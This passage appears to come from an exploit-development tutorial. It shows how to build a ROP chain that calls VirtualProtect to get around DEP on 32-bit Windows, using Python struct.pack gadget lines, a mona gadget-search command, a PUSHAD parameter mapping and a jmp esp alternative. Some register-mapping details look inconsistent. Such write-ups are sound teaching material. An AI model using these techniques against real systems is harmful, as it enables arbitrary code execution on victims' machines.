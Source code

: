 We have successfully identified 0x7653a3c1 within KERNEL32.DLL's .data section as a suitable writable address using PE header inspection. We will use this address for the lpflOldProtect parameter.



## 6. Building Register Setup for VirtualProtect

Now we'll build our ROP chain to call VirtualProtect. Here's the function prototype:

```
BOOL VirtualProtect(
  LPVOID lpAddress,      // [ESP+4]  (Memory address to modify)
  SIZE_T dwSize,         // [ESP+8]  (Size of region)
  DWORD flNewProtect,    // [ESP+12] (Memory protection flag)
  PDWORD lpflOldProtect  // [ESP+16] (Pointer to store old protection)
);
```

When we use PUSHAD, the registers are pushed in this order: EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI.

These values will map to VirtualProtect's parameters as follows:

```
BOOL VirtualProtect(
  LPVOID lpAddress,      // ECX -> [ESP+4]  (Address of shellcode)
  SIZE_T dwSize,         // EDX -> [ESP+8]  (Size of region to make executable)
  DWORD flNewProtect,    // EBX -> [ESP+C]  (PAGE_EXECUTE_READWRITE 0x40)
  PDWORD lpflOldProtect  // ESP+8 -> [ESP+10] (Writable memory address)
);
```

Let's build our ROP chain, setting up each register with the right value:

### 6.1 Setting up EBP (Stack Alignment)

```python
# EBP - Used for stack pivot or alignment
ebp = struct.pack("<I", 0x775d8836)  # POP EBP # RETN [msvcrt.dll]
ebp += struct.pack("<I", 0x775d8836)  # skip 4 bytes [msvcrt.dll]
```

**Current Value**: 0x775d8836 (same as gadget address)
**Reason**: This serves as a placeholder and helps with stack alignment. Using the same address helps maintain predictable stack behavior.

**How we found it**:
```
!py mona find -type instr -s "pop ebp # ret" -m "msvcrt" -cpb "\x00"
```

**Alternative Options**:
1. **Use JMP ESP directly**:
```python
ebp = struct.pack("<I", 0x775d8836)  # pop ebp; ret
ebp += struct.pack("<I", 0x625011af)  # jmp esp
```

2. **Other module address**:
```python
ebp = struct.pack("<I", 0x76fa54a3)  # pop ebp; ret [KERNEL32.dll]
ebp += struct.pack("<I", 0x76fa54a3)  # same address
```
